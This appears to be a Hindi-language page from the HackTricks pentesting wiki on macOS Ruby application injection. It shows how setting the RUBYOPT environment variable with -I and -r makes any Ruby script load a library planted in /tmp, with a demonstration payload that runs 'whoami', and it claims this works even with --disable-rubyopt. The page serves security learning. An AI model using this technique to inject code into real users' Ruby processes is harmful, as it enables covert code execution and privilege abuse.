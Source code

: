 # macOS Ruby Applications Injection

{{#include ../../../banners/hacktricks-training.md}}

## RUBYOPT

इस env वेरिएबल का उपयोग करके **ruby** को निष्पादित करते समय **नए params** **जोड़ना** संभव है। हालांकि **`-e`** पैरामीटर का उपयोग ruby को निष्पादित करने के लिए कोड निर्दिष्ट करने के लिए नहीं किया जा सकता, लेकिन **`-I`** और **`-r`** पैरामीटर का उपयोग करके लोड पथ में एक नई फ़ोल्डर जोड़ना और फिर **लोड करने के लिए एक लाइब्रेरी निर्दिष्ट करना** संभव है।

लाइब्रेरी **`inject.rb`** को **`/tmp`** में बनाएं:
```ruby:inject.rb
puts `whoami`
```
किसी भी जगह एक रूबी स्क्रिप्ट बनाएं जैसे:
```ruby:hello.rb
puts 'Hello, World!'
```
फिर एक मनमाना रूबी स्क्रिप्ट इसे लोड करें:
```bash
RUBYOPT="-I/tmp -rinject" ruby hello.rb
```
दिलचस्प तथ्य, यह **`--disable-rubyopt`** पैरामीटर के साथ भी काम करता है:
```bash
RUBYOPT="-I/tmp -rinject" ruby hello.rb --disable-rubyopt
```
{{#include ../../../banners/hacktricks-training.md}}
